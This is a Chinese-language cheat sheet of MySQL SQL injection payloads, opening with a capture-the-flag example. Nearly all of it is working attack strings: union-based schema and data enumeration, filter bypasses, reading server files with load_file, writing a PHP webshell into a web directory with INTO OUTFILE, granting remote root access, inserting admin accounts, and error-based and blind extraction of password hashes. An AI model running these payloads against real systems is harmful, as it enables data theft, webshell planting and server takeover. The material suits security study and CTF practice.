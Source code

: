 **0x00 mysql一般注入(select)**
>  1.  ‘ union select 1,2,database()# ->  **news**
	2.  ‘ union select 1,2,group_concat(table_name) from 	information_schema.tables where table_schema=’news’# ->  **news,secret_table**
	3.  ‘ union select 1,2,group_concat(column_name) from information_schema.columns where table_name=’secret_table’# ->  **id,fl4g**
	4.  ‘ union select 1,2,fl4g from secret_table# ->  **QCTF{sq1_inJec7ion_ezzz}**

5. 注释符
`#`  
`/*`
`—`

6. 过滤空格注入
使用/**/或()或+代替空格
%0c = form feed, new page  
%09 = horizontal tab  
%0d = carriage return  
%0a = line feed, new line

7. 多条数据显示
concat()  
group_concat()  
concat_ws()

8. 相关函数
system_user() 系统用户名  
user() 用户名  
current_user 当前用户名  
session_user()连接数据库的用户名  
database() 数据库名  
version() MYSQL数据库版本  
load_file() MYSQL读取本地文件的函数  
@@datadir 读取数据库路径  
@@basedir MYSQL 安装路径  
@@version_compile_os 操作系统 Windows Server 2003
GRANT ALL PRIVILEGES ON *.* TO ‘root’@’%’ IDENTIFIED BY ‘123456’ WITH GRANT OPTION;

9. mysql一般注入语句
猜字段数
order by n/*  
查看mysql基本信息  
and 1=2 union select 1,2,3,concat_ws(char(32,58,32),0x7c,user(),database(),version()),5,6,7/*  
查询数据库  
and 1=2 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1/*  
and 1=2 union select 1,group_concat(schema_name),3,4 from information_schema.schemata/*  
查询表名  
and 1=2 union select 1,2,3,4,table_name,5 from information_schema.tables where table_schema=数据库的16进制编码 limit 1,1/*  
and 1=2 union select 1,2,3,4,group_concat(table_name),5 from information_schema.tables where table_schema=数据库的16进制编码/*  
查询字段  
and 1=2 union select 1,2,3,4,column_name,5,6,7 from information_schema.columns where table_name=表名的十六进制编码 and table_schema=数据库的16进制编码 limit 1,1/*  
and 1=2 union select 1,2,3,4,group_concat(column_name),5,6,7 from information_schema.columns where table_name=表名的十六进制编码 and table_schema=数据库的16进制编码/*  
查询数据  
and 1=2 union select 1,2,3,字段1,5,字段2,7,8 from 数据库.表/*
判断是否具有读写权限  
and (select count(*) from mysql.user)>0/*  
and (select count(file_priv) from mysql.user)>0/*

10. mysql读取写入文件
必备条件：
读：file权限必备
写：1.绝对路径 2.union使用 3. 可以使用”
————————-读———————-
mysql3.x读取方法  
create table a(cmd text);  
load data infile ‘c:\\xxx\\xxx\\xxx.txt’ into table a;  
select * from a;
mysql4.x读取方法  
除上述方法还可以使用load_file()  
create table a(cmd text);  
insert into a(cmd) values(load_file(‘c:\\ddd\\ddd\\ddd.txt’));  
select * from a;
mysql5.x读取方法  
上述两种都可以
读取文件技巧：  
load_file(char(32,26,56,66))  
load_file(0x633A5C626F6F742E696E69)
————写————————–
into outfile写文件
union select 1,2,3,char(这里写入你转换成10进制或16进制的一句话木马代码),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*  
union select 1,2,3,load_file(‘d:\web\logo123.jpg’),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*

**0x01 mysql一般注入(insert、update)**

mysql一般请求mysql_query不支持多语句执行，mysqli可以。

insert注入多使用报错注入!

1.如果可以直接插入管理员可以直接使用!

insert into user(username,password) values(‘xxxx’,’ xxxx’),(‘dddd’,’dddd’)/* ‘);

2.如果可以插入一些数据，这些数据会在网页中显示，我们可以结合xxs和csrf来获取cookies或getshell

update注入同上

**0x02 mysql报错注入**

1. and(select 1 from(select count(*),concat((select (select (语句)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1

语句处填入一般一句，如：SELECT distinct concat(0x7e,0x27,schema_name,0x27,0x7e) FROM information_schema.schemata LIMIT 0,1

2. and+1=(select+*+from+(select+NAME_CONST((语句),1),NAME_CONST((语句),1))+as+x)–

3.update web_ids set host=’www.0x50sec.org’ where id =1 aNd (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(substring((Select (语句)),1,62)))a from information_schema.tables group by a)b);

4.insert into web_ids(host) values((select (1) from mysql.user where 1=1 aNd (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(substring((Select (语句)),1,62)))a from information_schema.tables group by a)b)));  
**  
0x03 mysql一般盲注**

使用ascii

AND ascii(substring((SELECT password FROM users where id=1),1,1))=49

使用正则表达式

and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA=”blind_sqli” AND table_name REGEXP ‘^[a-n]’ LIMIT 0,1)

**0x04 mysql时间盲注**

1170 union select if(substring(current,1,1)=char(11),benchmark(5000000,encode(‘msg’,’by 5 seconds’)),null) from (select database() as current) as tbl

UNION SELECT IF(SUBSTRING(Password,1,1)=’a’,BENCHMARK(100000,SHA1(1)),0) User,Password FROM mysql.user WHERE User = ‘root’
<!--stackedit_data:
eyJoaXN0b3J5IjpbNjI0MzA0Mjk4LC00NDYyMjUzMDRdfQ==
-->
